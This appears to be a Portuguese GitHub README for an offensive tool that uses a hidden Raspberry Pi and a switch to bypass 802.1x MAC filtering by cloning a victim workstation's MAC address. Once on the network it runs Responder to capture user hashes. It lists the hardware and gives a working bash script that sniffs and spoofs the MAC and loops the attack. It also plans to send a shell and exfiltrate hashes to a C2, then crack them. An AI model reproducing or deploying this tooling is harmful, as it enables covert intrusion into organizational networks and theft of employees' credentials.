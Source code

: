 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass de NAC 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo, utilizando ferramentas como RaspberryPI e um Switch de rede, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque de forma automatizada. Ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador no switch para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações. Em sequência é recomendável que o device seja escondido equanto estiver conectado ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

## V1 - RaspberryPi3
* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)

## V2 - Pwnagotchi
https://pwnagotchi.ai/
* UPS Lite V1.2 Poder HAT Board (Bateria)
* RaspberryPI ZeroW Dev Board(Solded)
* RaspberryPI ZeroW Ethernet HUB, HUB USB... (Inputs)
* E-Ink Display HAT (Screen)
* Adaptador Wi-FI - USB (SSH)

## Geral
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos/Retrateis) 1metro
* Adaptador RJ45-USB
* 
# Etapas:

## Setup Raspberry
- [ ] kali ISO: https://www.kali.org/docs/arm/raspberry-pi-3/
- [ ] kali LCD Screen
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt #HARCODED
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```

# Next Steps
- [ ] Enviar uma shell para o C2, a fim de ter pesistência e controle remoto do dispositivo
- [ ] Exfiltrar hashes para o C2
- [ ] Quebrar os hashes de forma automatizada
- [ ] Notificar o atacante ao realizar uma quebra de hashe
- [ ] Enumerar permissões do hashe obtido*
